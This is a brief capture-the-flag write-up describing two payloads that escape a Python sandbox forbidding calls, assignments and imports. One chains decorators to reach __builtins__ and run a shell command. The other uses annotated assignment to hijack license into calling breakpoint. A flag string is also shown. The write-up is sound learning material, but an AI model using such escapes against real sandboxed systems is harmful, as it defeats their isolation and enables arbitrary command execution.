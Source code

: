 ```yaml
---
created: 2024-06-29T00:39
updated: 2024-07-07T23:05
---
```


We are not allowed to use the following expressions in python: **assign**, **call**, **import**, **import from**, **binary operation (+-/ etc)**.

First thing that came to mind were function decorators.

```python
@safe_import.__globals__['__builtins__'].exec
@lambda x: 'safe_import.__globals__["__builtins__"].__import__("os").system("ls")'
def x(): 0
```

This is a working payload but it's 3 lines.

So I tried other things such as replacing `safe_import` with my own function but they all failed.

Then my teammates solved it with **AnnAssign**.

```python
builtins: "" = safe_import.__globals__["__builtins__"] license: "" = builtins.license license._Printer__setup: "" = builtins.breakpoint f"{license}"

# uiuctf{maybe_we_shouldnt_sandbox_python_2691d6c1}
```

Never knew python had such a function.
